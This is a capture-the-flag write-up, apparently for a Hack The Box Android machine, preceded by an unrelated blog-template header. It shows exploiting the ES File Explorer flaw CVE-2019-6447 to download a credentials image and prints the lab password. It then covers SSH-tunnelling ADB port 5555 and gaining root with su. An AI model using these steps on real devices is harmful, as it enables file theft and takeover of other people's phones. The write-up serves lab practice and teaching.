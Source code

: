 ```yaml
---
title: "My 2nd Important post"
date: 2020-09-15T11:30:03+00:00
weight: 2
---
```


We start with a nmap scan

all ports nmap (cut):
```bash
$ nmap -p- 10.10.10.247                     
PORT      STATE    SERVICE
2222/tcp  open     EtherNetIP-1
5555/tcp  filtered freeciv
35391/tcp open     unknown
42135/tcp open     unknown
59777/tcp open     unknown
```

---

nmap with scripts on the open ports (cut): 

```bash
PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
35391/tcp open     unknown
42135/tcp open     http    ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
```

None of the ports's can be visited from the web, except the port `59777` but that leads to a page that says forbidden. According to the nmap results, there probably is a minecraft server behind that port, so nothing too intresting there.

The only lead we have is port 42135, let's look further into it. 

---

Running searchsploit we get multiple hits, the first one that comes up seems to be the best for us, since the rest don't have the correct name. `ES File Explorer 4.1.9.7.4 - Arbitrary File Read `

---

```bash
$ searchsploit -m android/remote/50070.py
```


Looking at the code we can see a proxy rule, `proxy = {"http":"http://127.0.0.1:8080", "https":"https://127.0.0.1:8080"}`
The proxy variable is already set to the burpsuit proxy listener's port. We just need to add the proxy argument to the `requests.post` in the `httPost()` function. We can do that by adding `proxies=proxy` to the command so we get the following line:
```python
response = requests.post(url, headers=header, data=data, proxies=proxy)
```

We can run the program with the following arguments: `python3 50070.py listFiles 10.10.10.247`. We can look at our captured burp request to see what happened. 


```http
POST / HTTP/1.1
Host: 10.10.10.247:59777
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/json
Content-Length: 24

{"command": "listFiles"}
```

The exploit script is making a POST request to the ES File Explorer service with a command. We specified the listFiles command previously. 
When forwarding the request we get a list of files, which seem to be on an android system. 

While trying out a few commands from the exploit script, I stumble upon the command `listPics`. This command lists all the pics found by the ES file explorer. We see one intresting file named `creds.jpg`. We can retrieve this file by selecting the getFile command:
```bash
python3 50070.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
[+] Done. Saved as `out.dat`.
```

we move the `out.dat` file to creds.jpg by executing the `mv out.dat creds.jpg` command. When opening the image we see credentials for the account kristi. 
`kristi:Kr1sT!5h@Rp3xPl0r3!`
We try the credentials on ssh, port 2222

```bash
ssh -p 2222 kristi@10.10.10.247                                                                                                                                                                                                    127 ⨯
Password authentication
Password: 
:/ $ 
```
The credentials are correct and we get a shell.

---

After some googling on this file system I found this: https://book.hacktricks.xyz/mobile-apps-pentesting/android-app-pentesting/adb-commands#port-tunneling

netstat exists on ADB (which is in what we are right now, an android debugging tool of some sort). 

```bash
netstat -tuln                                                         
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp6       0      0 :::42135                :::*                    LISTEN     
tcp6       0      0 :::59777                :::*                    LISTEN     
tcp6       0      0 ::ffff:10.10.10.2:35209 :::*                    LISTEN     
tcp6       0      0 ::ffff:127.0.0.1:44971  :::*                    LISTEN     
tcp6       0      0 :::2222                 :::*                    LISTEN     
tcp6       0      0 :::5555                 :::*                    LISTEN     
tcp6       0     80 ::ffff:10.10.10.24:2222 ::ffff:10.10.14.2:60104 ESTABLISHED
tcp6       0      0 ::ffff:10.10.10.24:2222 ::ffff:10.10.14.2:60102 ESTABLISHED
udp        0      0 10.10.10.247:21625      1.0.0.1:53              ESTABLISHED
udp        0      0 0.0.0.0:5353            0.0.0.0:*                          
udp        0      0 10.10.10.247:27908      1.1.1.1:53              ESTABLISHED
udp        0      0 0.0.0.0:33083           0.0.0.0:*                          
udp6       0      0 ::ffff:10.10.10.2:43574 :::*                               
udp6       0      0 :::1900                 :::*                               
udp6       0      0 :::5353                 :::*                               
udp6       0      0 :::5353                 :::*                               
udp6       0      0 :::5353                 :::*                               
udp6       0      0 :::49675                :::*
```

We see that port 5555 is listening and that we couldn't find in the nmap scan. Let's try to connect to that port.
Since we can't access it from outside the box, let's go trough the inside and port forward it. 

```bash
ssh -p 2222 kristi@10.10.10.247 -L 5555:127.0.0.1:5555
Password authentication
Password: 
:/ $
```
It appears that we just connected to the shell, we have in a matter of fact. But we've also port forwarded the port 5555 on the box to port 5555 on our local machine. 
We can now connect to the port using adb connect localhost:5555
We connect first: `adb connect 127.0.0.1:5555`
Then we spawn a shell: `adb -s 127.0.0.1:5555 shell`
After connecting, we can run the command `su` to get root privileges.
```bash
x86_64:/ $ su
:/ # whoami
root
```

---

The user flag is located in `/mnt/user/0/primary`
The root flag is located in: `/data/root.txt`

That was all! Quite an easy box, but still a challenge researching about the ADB. Thanks for reading!

- Crunch#8996

